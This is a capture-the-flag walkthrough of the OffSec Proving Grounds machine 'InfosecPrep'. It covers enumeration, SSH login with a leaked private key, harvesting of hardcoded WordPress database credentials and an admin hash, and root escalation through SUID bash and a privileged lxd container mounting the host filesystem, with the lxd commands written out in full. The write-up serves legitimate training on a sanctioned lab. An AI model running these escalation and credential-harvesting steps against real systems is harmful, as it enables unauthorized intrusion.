

# InfosecPrep
**Date:** February 19th 2023

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Easy

<br>


<br>

## Objectives
- local.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
ORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.4.2
| http-robots.txt: 1 disallowed entry 
|_/secret.txt
|_http-title: OSCP Voucher &#8211; Just another WordPress site
```

An additional all ports scan shows us:

```
PORT      STATE SERVICE VERSION
33060/tcp open  mysqlx?
```

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 40 -r -x php,txt,html -w dir-med.txt`

```
/robots.txt           (Status: 200) [Size: 36]
/index.php            (Status: 200) [Size: 32895]
/wp-content           (Status: 200) [Size: 0]
/wp-login.php         (Status: 200) [Size: 4829]
/wp-signup.php        (Status: 200) [Size: 4971]
/wp-admin             (Status: 200) [Size: 4829]
/wp-includes          (Status: 200) [Size: 46134]
/wp-trackback.php     (Status: 200) [Size: 135]
/readme.html          (Status: 200) [Size: 7278]
/xmlrpc.php           (Status: 405) [Size: 42]
/secret.txt           (Status: 200) [Size: 3502]
/license.txt          (Status: 200) [Size: 19915]
/javascript           (Status: 403) [Size: 279]
```

<br>

## Website Digging

Visiting the main page:



As found in the nmap scan robots.txt contains:

```
User-Agent: *
Disallow: /secret.txt
```

And looking at secrets.txt:


That's base64 encoded so I run it through a decode and find an SSH key:


<br>

## System Access

We saw from the blog post on the main page that the only user on the box is "oscp", and we now have an SSH key, so let's see if we can connect over.


And we're in!

<br>

## System Enumeration

Waiting for us in our home directory is the local.txt flag:

`wc -c /home/oscp/local.txt`

```
33 /home/oscp/local.txt
```

We also have a file there called ip which contains:

```
#!/bin/sh
cp /etc/issue-standard /etc/issue
/usr/local/bin/get-ip-address >> /etc/issue
```

We can't use `sudo -l` since it requires a password.

I look for all files on the system we have write privileges to and no luck there either.

Verifying what they said was true shows us other than root the oscp user is the only other user on the system:

`cat /etc/passwd | grep bash`

```
root:x:0:0:root:/root:/bin/bash
oscp:x:1000:1000:oscp:/home/oscp:/bin/bash
```

I check my own crontab jobs as well as /etc/crontab and don't see anything.

I check `ps aux` to see if there is anything interesting running and again, no.

Checking `netstat -tunlp` shows that we've already discovered all listening ports except internally ports 53 and 3306 are open.

I try and connect over to the local MySQL on port 3306 but it requires a password.

Looking in /var/www/html gives us some credentials in the wp-config.php file:

```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Oscp12345!' );
```

I try and connect over to the external MySQL database on port 33060 with these credentials and it just says error. Internally on port 3306 however it works, and looking at the wp_users table in the wordpress database gives us an admin hash:

```
+----+------------+------------------------------------+---------------+-------------------+------------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email        | user_url               | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+-------------------+------------------------+---------------------+---------------------+-------------+--------------+
|  1 | admin      | $P$Bx9ohXoCVR5lkKtuQbuWuh2P36Pr1D0 | admin         | offsec@offsec.com | http://192.168.128.135 | 2020-07-09 06:12:49 |                     |           0 | admin        |
+----+------------+------------------------------------+---------------+-------------------+------------------------+---------------------+---------------------+-------------+--------------+
```

The hash type after looking it up is listed as WordPress (MD5) and I try and crack it with hashcat but it doesn't end up cracking.

Looking at files with capabilities using `getcap -r / 2>/dev/null` doesn't give us anything useful.

<br>

## Root

Looking for misconfigured SUID files using `find / -perm /4000 2>/dev/null` shows us that /usr/bin/bash is set with SUID and we should be able to just use that with the -p flag to escalate to root:


It worked, and now we can grab the proof.txt flag:

`wc -c /root/proof.txt`

```
33 /root/proof.txt
```

<br>

## Bonus

Checking the `id` command shows us we're in the following groups:

```
uid=1000(oscp) gid=1000(oscp) groups=1000(oscp),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
```

Members of the lxd group can exploit a malicious container to gain access to all files on the filesystem. This is done by mounting the existing filesystem inside the container and taking advantage of security.privileged=true when initializing it. That let's us act as the root user inside the container, which then let's us access all files we couldn't before.

Do the following to build the container on your home system:

```
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
sudo ./build-alpine
```

Transfer that container over to the target system and then run this to set up a storage pool and initialize lxd:

`/snap/bin/lxd init`


Then you can run the following:

```
/snap/bin/lxc image import ./<container name> --alias exploit
/snap/bin/lxc init exploit ignite -c security.privileged=true
/snap/bin/lxc config device add ignite exploit disk source=/ path=/mnt/root recursive=true
/snap/bin/lxc start ignite
/snap/bin/lxc list
/snap/bin/lxc exec ignite /bin/sh
cd /mnt/root/root
```


<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Fiding a disallowed entry in **robots.txt** which leads us to a **base64 encoded private SSH key** and using it to gain access to the system
- Finding **hardcoded credentials** in the wp-config.php file and using them to access the MySQL database
- Attempting to crack a password hash using **hashcat**
- Noticing a **misconfigured SUID binary** that let us escalate to root
- Also building and using a **malicious container** with **lxc** to gain access to all files on the file system.
- 

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
